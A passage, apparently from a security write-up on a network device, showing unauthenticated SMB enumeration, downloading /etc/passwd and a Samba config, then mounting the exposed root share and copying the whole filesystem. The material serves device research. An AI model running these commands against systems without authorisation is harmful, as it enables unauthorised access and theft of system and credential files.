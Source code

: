 
#### 14. SMB enum

Access to SMB shares (configured w/o creds):
```
# smbclient --no-pass --list //192.168.1.1
# smbmap -u '' -p '' -H 192.168.1.1
[+] Finding open SMB ports....
[+] Guest SMB session established on 192.168.1.1...
[+] IP: 192.168.1.1:445 Name: 192.168.1.1
    Disk                      Permissions
    ----                      -----------
    root                      READ ONLY
    IPC$                      NO ACCESS
# smbmap -u '' -p '' -H 192.168.1.1 -r --download 'root/etc/passwd'
# smbmap -u '' -p '' -H 192.168.1.1 -r --download 'root/var/samba/smb-shared.conf'
```

List `/root`:
```
# smbclient --no-pass //192.168.1.1/root
...
smb: \> ls
  .                                   D        0  Wed Dec 31 19:00:00 1969
  ..                                  D        0  Wed Dec 31 19:00:00 1969
  bin                                 D        0  Mon Apr  9 02:26:24 2018
  dev                                 D        0  Wed Dec 31 19:00:28 1969
  etc                                 D        0  Mon Apr  9 05:28:27 2018
  lib                                 D        0  Mon Apr  9 02:24:18 2018
  mnt                                 D        0  Thu Jan  1 03:13:02 1970
  opt                                 D        0  Mon Apr  9 02:18:59 2018
  tmp                                 D        0  Thu Jan  1 22:29:52 1970
  sys                                DR        0  Wed Dec 31 19:00:11 1969
  var                                 D        0  Thu Jan  1 18:50:20 1970
  usr                                 D        0  Mon Apr  9 02:18:54 2018
...
```

#### 15. I want my share!

Edit local `/etc/fstab`:

```
//192.168.1.1/root /mnt/zyxel cifs guest,file_mode=0777,dir_mode=0777 0 0
```

And the mount the share:

```
# mkdir /mnt/zyxel
# mount -av
# rsync -Pa /mnt/zyxel /tmp/root_fs
# umount /mnt/zyxel
```

#### 16. Getting some juice
